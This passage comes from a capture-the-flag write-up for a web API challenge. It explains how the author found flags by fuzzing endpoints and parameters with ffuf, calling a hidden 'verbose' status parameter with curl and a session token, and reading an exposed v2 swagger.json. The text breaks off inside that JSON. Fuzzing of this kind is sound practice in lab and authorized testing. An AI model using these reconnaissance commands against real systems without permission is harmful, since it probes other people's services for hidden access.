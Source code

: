 which responds with the following and our flag

```json
{ "error": "Non Image detected", "example_data": "{\"private_key\":\"^FLAG^$FLAG$\"}" }
```

---

#### Flag 3

This flag caught me out a bit.
--<b>hint</b>--
<i>Sometimes developers hide extra features into a page… but how can you access it?</i>

I fuzzed and dug around in the user, secrets and config endpoints and then realised that I hadn't odoe much with status...

I always find it important to fuzz both endpoints and parameters

```sh
ffuf -u <target>/api/v1/user/FUZZ -w /path/to/wordlist.txt -H "X-Token: session-token";
ffuf -u <target>/api/v1/user?FUZZ -w /path/to/wordlist.txt -H "X-Token: session-token";
```

I found that the parameter "verbose" returns a size of 99.

```sh
curl https://38f19933258476b2367ff1b829ed25e3.ctf.hacker101.com/api/v1/status?verbose -H "X-Token: 49cc3115b6042e75208413181f15e200"
```

returned

```json
{ "live": true, "data": "^FLAG^$FLAG$" }
```

and there is our flag 😊

---

#### Flag 4

-- <b>hint</b> --
<i>Have you read the new version of the API's documentation</i>

For this one I used my version fuzzer which can be found [here](www.github.com/astroaspie/api-version-hunter").

which returned the following json at <b><i>&lt;target&gt;/api/v2/swagger.json</i></b>

```json
{
  "swagger": "2.0",
  "flag": "^FLAG^$FLAG$",
  "info": {
    "description": "Simple User API",
    "version": "1.0.0",
    "title": "User API",
    "contact": { "email": "noreply@hackerone.com" },
    "license": { "name": "Apache 2.0", "url": "http://www.apache.org/licenses/LICENSE-2.0.html" }
  },
  "tags": [
    { "name": "admins", "description": "Secured Admin-only calls" },
    { "name": "users", "description": "Users of the API" }
  ],
  "schemes": ["https"],
  "paths": {
    "/api/v2/user": {
      "get": {
        "tags": ["users"],
        "summary": "View user details",
```